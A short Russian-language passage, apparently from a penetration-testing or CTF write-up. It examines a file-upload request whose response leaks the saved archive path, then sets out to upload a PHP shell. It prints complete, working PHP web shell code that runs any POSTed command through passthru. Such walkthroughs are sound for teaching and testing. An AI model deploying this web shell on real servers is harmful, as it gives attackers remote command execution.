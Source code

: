 Видим тело запроса на загрузку файла, также видим ответ, где по бизнес логике нам отображается относительный путь куда был сохранен zip архив.

![](img/img9.png)

Также видим содержимое файла. Что если попробовать загрузить php шелл? Проверка. В качестве шелла будем использовать код:

```php
<?php
echo "
<html>
    <head>
        <title>SHELL</title>
    </head>
    <body>";
echo "<form method=post>";
echo "<input type=text name=cmd size=100>";
echo "</form>";
echo "<pre>";
if ((!$_POST['cmd']) || ($_POST['cmd']=="")) {
    $_POST['cmd']="id;pwd;uname -a;ls -la";
}
echo "".passthru($_POST['cmd'])."</pre>
    </body>
</html>";
?>
```
